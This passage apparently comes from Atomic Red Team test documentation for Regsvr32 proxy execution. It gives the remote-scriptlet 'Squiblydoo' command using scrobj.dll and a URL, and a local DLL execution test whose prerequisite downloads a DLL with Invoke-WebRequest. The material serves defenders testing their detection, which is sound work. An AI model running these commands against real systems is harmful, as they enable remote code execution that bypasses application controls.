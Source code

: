 #### Attack Commands: Run with `command_prompt`!

```cmd
#{regsvr32path}\#{regsvr32name} /s /u /i:#{url} scrobj.dll
```

<br/>
<br/>

## Atomic Test #3 - Regsvr32 local DLL execution

Regsvr32.exe is a command-line program used to register and unregister OLE controls. Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows

**auto_generated_guid:** 08ffca73-9a3d-471a-aeb0-68b4aa3ab37b

#### Inputs:

| Name         | Description                                                 | Type   | Default Value                                                     |
| ------------ | ----------------------------------------------------------- | ------ | ----------------------------------------------------------------- |
| dll_name     | Name of DLL to Execute, DLL Should export DllRegisterServer | path   | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx86.dll |
| regsvr32path | Default location of Regsvr32.exe                            | path   | C:&#92;Windows&#92;system32                                       |
| regsvr32name | Default name of Regsvr32.exe                                | string | regsvr32.exe                                                      |

#### Attack Commands: Run with `command_prompt`!

```cmd
IF "%PROCESSOR_ARCHITECTURE%"=="AMD64" (C:\Windows\syswow64\regsvr32.exe /s #{dll_name}) ELSE ( #{regsvr32path}\#{regsvr32name} /s #{dll_name} )
```

#### Dependencies: Run with `powershell`!

##### Description: AllTheThingsx86.dll must exist on disk at specified location (#{dll_name})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{dll_name}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{dll_name}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.010/bin/AllTheThingsx86.dll" -OutFile "#{dll_name}"
```

<br/>
<br/>
